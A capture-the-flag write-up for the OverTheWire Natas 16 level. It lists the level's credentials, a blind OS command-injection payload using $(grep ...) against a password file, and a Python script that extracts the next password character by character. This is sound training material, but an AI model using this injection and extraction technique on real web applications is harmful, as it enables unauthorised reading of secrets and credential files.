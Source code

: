 # Username
natas16
# Password
hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
# Web vulnerability
Blind OS command injection
# Method of solve
Figure out that we can use the $() syntax to output the result of a command. For example...
```
$(grep E /etc/natas_webpass/natas17)
```
Will not return anything. But if an incorrect character is appended, then the entire dictionary is returned. So we can use the below script to automate the blind OS injection process.
```
#!/usr/bin/env python3
 
import requests
from requests.auth import HTTPBasicAuth
 
url = 'http://natas16.natas.labs.overthewire.org/?needle='
s = requests.Session()
s.auth = HTTPBasicAuth("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")
 
passfile17 = '/etc/natas_webpass/natas17'
prefix = 'tested'
 
 
def get_password_chars():
    filtered = ''
    chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
 
    print('Looking for password char set...')
    for char in chars:
        input_text = f'^{prefix}$(grep {char} {passfile17})'
        if is_hit(input_text):
            filtered += char
            print(f'The password contains: {filtered}')
 
    return filtered
 
 
def get_password(filtered):
    password = ''
    for i in range(32):
        print(f'Looking for the position {i}...')
 
        for char in filtered:
            input_text = f'^{prefix}$(grep ^{password}{char} {passfile17})'
            if is_hit(input_text):
                password += char
                print(password)
                break
 
    return password
 
 
def is_hit(data):
    resp = s.get(f'{url}{data}')
    return resp and prefix not in resp.text
 
 
# Step 1: Find out what chars the password contains
password_chars = get_password_chars()
 
# Step 2: Find out the password by ordering the chars found in step 1
password = get_password(password_chars)
print(f'The password is: {password}')
```

